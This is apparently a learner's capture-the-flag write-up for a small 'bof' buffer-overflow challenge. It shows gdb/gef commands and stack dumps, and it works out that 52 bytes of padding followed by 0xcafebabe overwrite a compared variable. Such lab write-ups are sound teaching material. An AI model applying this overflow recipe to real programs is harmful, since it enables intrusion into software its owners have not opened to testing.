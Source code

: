 With much help from
https://www.youtube.com/watch?v=rwfKScdQybE
and ChatGPT for understanding assembly and gdb. 


Had to install big bunch of things to get gdb / gef working on the bare minimum Kali docker image.

Once I had gef working, launched it on the binary
```sh
gdb ./bof
```

In there, some useful commands were
```sh
break main # Didn't know how to find a better address
run
si # to do single steps over each operation
context # to bring back the view of the registers, stack etc
```
TODO: improve understanding of gef, namely,
- to learn how could I have seen the disassambled code of main and then func to know where to put a break point.
Answer from ChatGPT and trying:
```sh
gdb ./<binary>
start # Starts but breaks directly
# Move on from there, look at disassembled parts with, for instance
disassemble func # Can also write disas ;-)
```
- to manage si / s / continue correctly

Went on until after the program prompts for an input

Input a series of a's = `\x61`'s

Went on to the comparison between something and `0xcafebabe`:
```
0x56555654 <func+40>        cmp    DWORD PTR [ebp+0x8], 0xcafebabe
```
So the something we're comparing to sits at `$ebp+0x8`. Which I checked in gef with
```sh
x/32xw $ebp+0x8 # Prints 32 4-byte in hex with wide(?) mode
0xffffd560:	0xdeadbeef	0x00000000	0x00000000	0x00000000
0xffffd570:	0x00000000	0x00000070	0x00000000	0xf7dad295
...
```
With help from ChatGPT, the video, the code and much painful counting in hex, I finally managed to check below in memory and find my input of `0x61`'s compared to what `0xcafebabe` will be compared to (`0xdeadbeef`)
```
x/32xw $ebp-0x38
0xffffd520:	0xf7ffcff4	0x0000002c	0x00000000	0x61616161
0xffffd530:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd540:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd550:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd560:	0xdeadbe00	0x00000000	0x00000000	0x00000000
```
From there I counted that I had put 52 `0x61` to get to the 0xdeadbeef (with the null byte ending the string having just overwritten the first byte of `0xdeadbeef`).

So it only remained to use pwntools to send `0xcafebabe` in Little Endian preceeded by 52 bytes. Using pwntools as the video and its docs had shown.
